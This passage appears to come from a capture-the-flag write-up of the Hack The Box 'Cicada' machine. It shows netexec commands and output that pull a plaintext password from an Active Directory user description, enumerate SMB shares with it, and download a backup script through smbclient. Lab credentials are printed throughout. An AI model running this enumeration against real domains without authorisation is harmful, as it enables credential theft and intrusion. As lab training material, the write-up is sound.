 ```bash
SMB         10.129.66.140   445    CICADA-DC        SYSVOL          READ            Logon server share 

```

When enumerating user description we get a user who left some sensitive information, this [read](https://www.hackingarticles.in/active-directory-pentesting-using-netexec-tool-a-complete-guide/) guides on the enumeration process .
```bash
nxc ldap cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -M user-desc
SMB         10.129.66.140   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.129.66.140   389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
USER-DESC   10.129.66.140   389    CICADA-DC        User: krbtgt - Description: Key Distribution Center Service Account
USER-DESC   10.129.66.140   389    CICADA-DC        User: david.orelious - Description: Just in case I forget my password is aRt$Lp#7t*VQ!3
USER-DESC   10.129.66.140   389    CICADA-DC        Saved 4 user descriptions to .../.nxc/logs/UserDesc-10.129.66.140-20250206_132327.log

cat /.nxc/logs/UserDesc-10.129.66.140-20250206_132327.log
User:                     Description:
Administrator             Built-in account for administering the computer/domain
Guest                     Built-in account for guest access to the computer/domain
krbtgt                    Key Distribution Center Service Account
david.orelious            Just in case I forget my password is aRt$Lp#7t*VQ!3

```

The user `david.orelious` exposes his password `aRt$Lp#7t*VQ!3`  
We list the shares that the new user has access to : 
```bash
 nxc smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.129.66.140   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.66.140   445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.66.140   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.66.140   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.66.140   445    CICADA-DC        -----           -----------     ------
SMB         10.129.66.140   445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.66.140   445    CICADA-DC        C$                              Default share
SMB         10.129.66.140   445    CICADA-DC        DEV             READ            
SMB         10.129.66.140   445    CICADA-DC        HR              READ            
SMB         10.129.66.140   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.66.140   445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.66.140   445    CICADA-DC        SYSVOL          READ            Logon ser
```

The user has access to `DEV` 
```bash
└─$ smbclient //10.129.66.140/DEV -U 'david.orelious'
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 15:31:39 2024
  ..                                  D        0  Thu Mar 14 15:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 20:28:22 2024

		4168447 blocks of size 4096. 478133 blocks available
smb: \> get  "Backup_script.ps1"
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> 
```
